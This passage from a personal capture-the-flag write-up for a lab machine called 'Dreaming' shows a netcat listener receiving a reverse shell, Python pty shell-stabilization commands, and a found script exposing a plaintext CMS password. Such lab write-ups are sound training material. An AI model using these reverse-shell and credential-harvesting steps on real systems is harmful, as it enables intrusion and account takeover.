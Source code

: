 ![Pasted image 20250723205845.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250723205845.png)

Set up a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and open the file on the [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md) :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.8.38] 33634
Linux ip-10-10-8-38 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 18:59:14 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Shell Stabilization

We can perform a [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-8-38:/$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-8-38:/$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                              
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Dreaming]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset
www-data@ip-10-10-8-38:/$ 
```

Now we search for something :

```bash
www-data@ip-10-10-8-38:/$ cd opt
www-data@ip-10-10-8-38:/opt$ ls
getDreams.py  test.py
www-data@ip-10-10-8-38:/opt$ cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"
```
## SSH Access 

